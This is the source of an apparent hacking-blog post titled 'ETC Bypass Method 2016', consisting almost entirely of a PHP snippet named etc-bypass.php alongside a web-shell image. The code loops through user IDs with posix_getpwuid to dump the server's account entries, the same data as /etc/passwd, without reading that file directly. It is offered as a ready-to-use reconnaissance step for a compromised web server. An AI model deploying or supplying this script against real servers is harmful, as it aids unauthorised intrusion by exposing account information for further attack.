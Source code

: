 ```yaml
---
layout: post
title: ETC Bypass Method 2016
date: 2023-08-26 22:50
author: theguler
comments: true
categories: [Hacking - Security]
---
```

<!-- wp:image {"id":8236,"width":"504px","height":"auto","sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large is-resized"><img src="https://theguler.wordpress.com/wp-content/uploads/2023/08/web-shell.png?w=1024" alt="" class="wp-image-8236" style="width:504px;height:auto" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p><strong>etc-bypass.php</strong></p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">&lt;?php for($uid=0;$uid&lt;2000;$uid++){ //cat /etc/passwd $nothing = posix_getpwuid($uid); if (!empty($nothing)) { while (list ($key, $val) = each($nothing)){ print "$val:"; } print "&lt;br /&gt;"; } } ?&gt;</pre>
<!-- /wp:preformatted -->
